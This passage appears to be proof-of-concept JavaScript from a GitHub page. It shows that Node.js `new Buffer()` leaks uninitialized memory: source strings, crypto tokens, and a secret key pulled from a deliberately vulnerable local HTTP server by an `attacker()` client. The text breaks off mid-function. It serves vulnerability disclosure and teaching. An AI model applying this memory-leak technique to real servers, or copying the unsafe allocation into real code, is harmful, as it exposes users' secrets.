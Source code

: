 ##### Comment (notice how this prints parts of your source):
```javascript
var token = 'pass' + 'word!ASD';
//password!ASD
for (var step = 0; step < 100000; step++) {
    var buf = (new Buffer(100)).toString('ascii');
    if (buf.indexOf(token) !== -1) {
        console.log('Found at step ' + step + ': ' + buf);
    }
}
```

##### Crypto:
```javascript
var crypto = require('crypto');
var token = 'password' + Math.random().toString(32);
crypto.pbkdf2(token, 'salt', 1, 2, function(err, result) {} )
for (var step = 0; step < 100000; step++) {
    var buf = (new Buffer(200)).toString('ascii');
    var ind = buf.indexOf(token);
    if (ind !== -1) {
        console.log('Found at step ' + step + ': ' + buf);
    }
}
```

##### http (notice how this prints raw http traffic):
server.js:
```javascript
require('http').createServer(function(req, res) {
	if (/^\/in\//.test(req.url)) {
		req.on('data', function (chunk) {});
		req.on('end', function() {
			res.end();
		});
		return;
	}
	if (/^\/out\//.test(req.url)) {
		var x = new Buffer(1000);
		res.write(x);
		res.end();
		return;
	}
	res.end();
}).listen(7777);
```

client.js:
```javascript
// Two clients in one:
//   valid() is the valid client that sends the token.
//   attacker() makes the server to leak the data and inspects it.

var http = require('http');
var token = 'MySecretKey';

function attacker() {
	http.request({host: 'localhost', port: 7777, path: '/out/'}, function(res) {
		res.on('data', function (chunk) {
			var data = chunk.toString();
			data = data.toString('utf-8');
			if (data.indexOf(token) !== -1) {
				console.log('found!');
				console.log(data);
```